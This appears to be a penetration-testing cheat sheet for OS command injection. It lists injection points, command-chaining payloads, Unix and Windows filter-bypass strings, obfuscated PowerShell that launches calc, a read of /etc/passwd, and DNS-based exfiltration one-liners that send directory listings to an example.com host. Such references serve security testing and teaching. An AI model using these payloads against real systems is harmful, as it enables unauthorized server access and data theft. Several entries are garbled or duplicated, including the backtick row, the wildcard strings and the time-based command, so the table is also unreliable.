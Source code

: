 ```yaml
---
legal-banner: true
---
```


### **Command Injection**

Command injection permits the execution of arbitrary operating system commands by an attacker on the server hosting an application. This can lead to unauthorized access or control over the application's environment and underlying system, potentially compromising the application and all its data.

### **Identify Injection Points**

1.  Parameter Injection: Check if any input parameters are directly used in command execution.
2.  Path Injection: Look for file paths that can be manipulated to include command execution.
3.  Header Injection: Inspect HTTP headers (e.g., User-Agent, Referer) for possible injection points.
4.  Cookie Injection: Analyze cookie values for potential command injection vectors.

### **Determine Context**

1.  Quoted Context: Commands need to break out of quotes (using `"` or `'`) before execution.
2.  Unquoted Context: Commands are directly appended to the command string.

### **Basic Command Execution**

| Technique | Description |
| --- | --- |
| `ls \| id` | Executes both commands. |
| `ls \| id` | Pipes the output of `ls` into `id`. |
| `ls && id` | Executes `id` if `ls` finishes successfully. |
| `ls & id` | Executes both but shows the output of only the second command. |
| `ls %0A id` | Executes both using URL encoded newline (`%0A`). |
| `ls` | Executes command within backticks. |
| `$(ls)` | Executes command within `$()`. |
| `ls; id` | Chains commands using semicolon. |
| `ls${IFS}id` | Uses environment variables to inject commands. |

### **Bypass Protections**

#### Unix-Specific Techniques

| Technique | Description |
| --- | --- |
| `> /var/www/html/out.txt` | Redirects output to a file. |
| `< /etc/passwd` | Sends input from a file. |

#### Windows-Specific Techniques

| Technique | Description |
| --- | --- |
| `powershell.exe -Command "..."` | Executes PowerShell commands. |
| `cmd.exe /c "..."` | Executes commands using `cmd.exe`. |

### **Limitation Bypasses**

| Technique | Description |
| --- | --- |
| `powershell C:**2\n??e*d.*?` | Bypasses filters using wildcard characters in PowerShell. |
| `@^p^o^w^e^r^shell c:**32\c*?c.e?e` | Executes calc using obfuscated PowerShell command. |
| `ls${LS_COLORS:10:1}${IFS}id` | Uses environment variables and IFS to inject commands. |

### **Data Exfiltration**

#### Time-Based Data Exfiltration

| Technique | Description |
| --- | --- |
| `time if [ $(whoami cut -c 1) == s ]; then sleep 5; fi` |     |

#### DNS-Based Data Exfiltration

| Technique | Description |
| --- | --- |
| `for i in $(ls /) ; do host "$i.example.com"; done` | Uses DNS queries to exfiltrate data. |
| `$(host $(wget -h\|head -n1\|sed 's/[ ,]/-/g'\|tr -d '.').example.com)` | Exfiltrates data using DNS and `wget`. |

### **Filtering Bypass Techniques**

#### Windows-Specific

| Technique | Description |
| --- | --- |
| `powershell C:**2\n??e*d.*?` | Bypasses filters using wildcard characters in PowerShell. |
| `@^p^o^w^e^r^shell c:**32\c*?c.e?e` | Executes calc using obfuscated PowerShell command. |

#### Unix-Specific

| Technique | Description |
| --- | --- |
| `ls${LS_COLORS:10:1}${IFS}id` | Uses environment variables and IFS to inject commands. |
| `$(ls)` | Executes command within `$()`. |